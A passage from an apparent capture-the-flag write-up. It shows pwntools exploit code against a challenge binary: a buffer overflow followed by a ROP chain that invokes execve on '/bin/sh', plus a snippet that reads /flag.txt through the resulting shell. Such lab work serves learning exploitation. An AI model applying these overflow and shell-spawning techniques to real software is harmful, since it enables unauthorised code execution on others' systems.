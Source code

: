 ```python

pause(1)
p.sendline(b'cat /flag.txt')

p.interactive()
```

- exploit path through *brks*

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = """
continue
"""


def unsafe():
    p.recvuntil(b">>>")
    p.sendline(b"SAFE")
    p.recvuntil(b">>>")
    p.sendline(b"N")


def setup_overflow():
    unsafe()
    p.recvuntil(b">>>")
    p.sendline(b"BRKS")
    p.recvuntil(b">>>")
    chain = cyclic(40)
    chain += p64(e.sym["deprecated_feedback"])
    p.sendline(chain)


def syscall_chain():
    pop_rdx_rcx = r.find_gadget(["pop rax", "pop rdx", "pop rcx", "ret"])[0]
    pop_rdi_rsi = r.find_gadget(["pop rdi", "pop rsi", "syscall"])[0]
    sh = next(e.search(b"/bin/sh\0"))
    log.info(f"Pop rax, rdx, rcx, retgadget: {hex(pop_rdx_rcx)}")
    log.info(f"Pop rdi, rsi, syscall gadget: {hex(pop_rdi_rsi)}")
    log.info(f"sh: {hex(sh)}")

    chain = cyclic(264)
    chain += p64(pop_rdx_rcx)
    chain += p64(0x3B)  # rax = 0x3b
    chain += p64(0x0)  # rcx = 0
    chain += p64(0x0)  # rdx = 0
    chain += p64(pop_rdi_rsi)
    chain += p64(sh)  # rdi = sh
    chain += p64(0x0)

    p.recvuntil(b">>>")
    p.sendline(chain)


def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
```
